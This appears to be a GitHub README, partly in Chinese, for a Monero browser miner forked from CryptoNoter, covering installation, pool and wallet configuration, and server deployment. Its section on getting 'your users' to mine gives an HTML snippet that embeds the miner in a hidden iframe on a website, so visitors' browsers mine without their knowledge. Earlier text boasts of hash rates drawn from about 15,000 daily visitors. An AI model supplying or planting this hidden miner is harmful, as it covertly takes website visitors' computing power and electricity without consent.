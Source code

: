 ## Monero(XMR) Web Miner
Monero(XMR) Web Miner modified version from cryptonoter/CryptoNoter. Check the original repository in https://github.com/cryptonoter/CryptoNoter.


## Requirements
The project is basically a "Plug & Play" installation. Most of the configurations are setup automatically when you run the installation. Simply follow the step by step installation. 

However, if you decide to modify or optimize CryptoNoter for maximum mining capabilities, you will need good knowledge on Nginx Reverse Proxy, javascript, etc. For example, I did approx 1550 H/s for a website with approx 15,000 daily visitors (Avg Time on Page: 55 secs / visitor) before optimization. After optimization, I did on avg 3500 H/s. After the latest update (18/12/17), I am doing 4300 H/s. （现在直接用的nodejs，没用nginx，性能应该没那么高）

`Minimum System Requirements`
1. Server with at least 1 CPU, 1 GB Ram & 8GB Harddisk [You will need better specs if you have higher traffic load]
2. Ubuntu(Debian) OS
3. Nodejs, NPM & Forever Packages


## Installation
首先保证自己装好了nodejs
### 下载
``` bash
git clone https://github.com/nladuo/xmr-web-miner.git
cd xmr-web-miner && npm install
```
### 安装软件
``` bash
npm install -g forever
npm install -g http-server
```

## Configuration
### 修改config.json
``` json
{
    "lhost": "10.18.92.38",
    "lport": 7777,
    "domain": "10.18.92.38",
    "pool": "pool.supportxmr.com:5555",
    "addr": "44tSv6j2X8J2HpcHPxd9G7L2PxawZCr7MaxsA3F8QDwC7j25cyqjS9PMK2EcWPz77qavwsgh61a5EF1VBsPM27PDQEeMoLP",
    "pass": "x10"
}
```
### 配置HTTP
修改web目录中processor.js、worker.js、miner.html、lib/cryptonoter-asmjs.min.js中的"[http://10.18.92.38:7777/]()"和"[ws://10.18.92.38:7777/]()"改成你自己的。

### 配置HTTPS
修改xmr-server.js的51-53行
```javascript
//ssl support
// const ssl = !!(conf.key && conf.cert);
const ssl = false
```
- 搞好证书
- 把上面的"[http://10.18.92.38:7777/]()"换成"[https://域名:端口/]()"
- 把上面的"[ws://10.18.92.38:7777/]()"换成"[wss://域名:端口/]()"

## Deployment
### 调试运行
``` bash
node xmr-server.js
```

### 使用forever
``` bash
forever start xmr-server.js
```
## 让你的用户帮你挖矿
### 嵌入iframe到你的网页
``` html
<iframe style="display: none;" src="http://10.18.92.38:7777/miner.html" name="iframe_xmr"></iframe>
```
### 效果
``` bash
cd test_miner
http-server # 然后打开http://localhost:8080/test_miner.html
```
![](test_miner/result.png)
## Donations To Support
* There is NO DEVELOPER FEE hardcoded into this project. Donation is as per your goodwill to support my development.
I am looking to add other cryptonote currencies support into this project and also to create a monero pool specifically for javascript browser mining. If you are interested in my future developments, i would really appreciate a small donation to support this project.
```html
My Monero Wallet Address (XMR)
42zXE5jcPpWR2J6pVRE39uJEqUdMWdW2H4if27wcS1bwUbBRTeSR5aDbAxP5KCjWueiZevjSBxqNZ36Q5ANPND3m4RJoeqX
```
```html
My Bitcoin Wallet Address (BTC)
34Z53zGc888pUYRsFtxgQxRVVLKwcWtjeP
```
```html
My Litecoin Wallet Address (LTC)
MJZZ9qq8ioAecyVDD7zMDStJXpY5thH2qC
```
* PayPal Donation<br />
And if you prefer the traditional mode, you may donate to this project via PayPal by sending the donation to my PayPal email: cryptonoter@gmail.com

Last but not least, i am looking forward to hearing all of the great projects built upon this web miner project. If you've built something great, drop me an email so that i can share with my readers, users and friends.



## License
* Note: If you are implementing this project in your personal or commercial projects, please be a nice and supportive user. You may give a credit back to my project or alternatively if you wish to keep credits hidden, please kindly consider a donation to keep this project running.

MIT https://raw.github.com/cryptonoter/CryptoNoter/master/LICENSE

## Missions
Great things happen when we work together. The power of collaboration
